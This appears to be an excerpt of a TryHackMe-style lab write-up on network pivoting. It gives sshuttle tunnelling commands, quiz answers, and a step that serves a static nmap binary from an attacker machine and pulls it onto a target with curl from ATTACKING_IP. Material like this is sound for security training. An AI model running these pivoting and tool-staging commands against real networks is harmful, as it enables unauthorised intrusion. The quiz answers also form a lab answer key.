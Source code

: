 To use our earlier example:

```
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5


```

This will allow sshuttle to create a connection without disrupting itself.


How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16

```
sshuttle -r pwned@172.16.20.7 172.16.0.0/16
```
What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?
```
--ssh-cmd "ssh -i priv_key"
```

You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error.

What switch (and argument) could you use to fix this error?

```
-x 172.16.0.100
```

## Git Server Enumeration

It's time to put your newfound knowledge to the test!

Download a static nmap binary https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true. Rename it to nmap-USERNAME, substituting in your own TryHackMe username. Finally, upload it to the target in a manner of your choosing.

For example, with a Python webserver:-

On Kali (inside the directory containing your Nmap binary):

```
sudo python3 -m http.server 80


```

Then, on the target:

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME


```

##  Pivoting
